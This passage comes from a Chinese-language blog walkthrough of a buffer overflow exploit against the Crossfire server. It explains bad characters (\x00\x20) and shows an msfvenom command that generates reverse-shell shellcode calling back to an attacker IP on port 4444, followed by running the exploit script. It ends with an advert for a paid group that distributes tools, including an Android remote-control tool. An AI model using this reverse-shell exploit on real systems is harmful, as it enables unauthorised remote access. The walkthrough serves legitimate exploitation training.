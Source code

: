 在计算机安全和编程中，“坏字符”（Bad Characters）通常是指那些在特定上下文中可能导致程序行为异常、触发错误或被程序逻辑所禁止的字符。  
  
在网络安全和缓冲区溢出攻击中，“坏字符”是指那些可能破坏攻击载荷（payload）或导致程序崩溃的字符  
  
例如：  
- **空字符（0x00）**  
：通常用于字符串终止，可能会截断攻击载荷。  
  
- **换行符（0x0A）或回车符（0x0D）**  
：可能触发协议解析错误。  
  
- **其他特殊字符**  
：某些协议或程序可能对特定字符有特殊用途，这些字符如果出现在攻击载荷中，可能会导致攻击失败。  
  
### （2）注入坏字符  
  
将所有的十六进制字符注入后，如果遇到坏字符，数字就会变成00。按照这个规则，我们就可以对照输入的十六进制字符找到坏字符，即：\x00\x20  
。  
  
脚本7：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmR2KI4AmF2JY9fRaVpkvITicbvstJEWaZKZQPkgN9hHGYzCwfFYeuWzWsLUENAVVIew19tXk7OSXIg/640?wx_fmt=png&from=appmsg "")  
# 反弹shell  
  
最后一步，我们使用msf生成实现反弹shell的代码  
```
msfvenom -p linux/x86/shell_reverse_tcp LHOSt=192.168.159.129 LPORT=4444 -f c -b "\x00\x20" -f py

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmR2KI4AmF2JY9fRaVpkvITic1all6mqo6COveDKIfGu9AIo5CibibdAxsTOJzicGN4twy1tJLBF4iaSGEQ/640?wx_fmt=png&from=appmsg "")  
  
在攻击机端口监听  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmR2KI4AmF2JY9fRaVpkvITiciakO5kfRU4sGgJpuT4q3CQo3Z6OL8g0ByLiaVCtrVyyk80ABau1tAwpg/640?wx_fmt=png&from=appmsg "")  
  
运行crossfire程序后，执行反弹shell脚本  
```
python exp08.py

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmR2KI4AmF2JY9fRaVpkvITica4sXiaRdBeSPF51ZBJWboruAzxTovvYuaK594sgXnQ7pycjG8zlMtfA/640?wx_fmt=png&from=appmsg "")  
  
成功反弹shell![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmR2KI4AmF2JY9fRaVpkvITicp0HRYhl55lx4kFEOWwiagfOZxiaAtQCuy3Ju8ofa7EumibUpQM2pQicia0g/640?wx_fmt=png&from=appmsg "")  
  
# 资源分享  
## 帮会分享  
  
欢呼各位热爱网络安全的师傅们加入我们的帮会。是真正的红队大佬创建的，里面会定时丢些网上没有的工具（比如安卓远控7.4，不过现在已经删除了，有时限，加入的记得看好时间），现在只要99就可以终身，后面人多了就会涨价了  
  
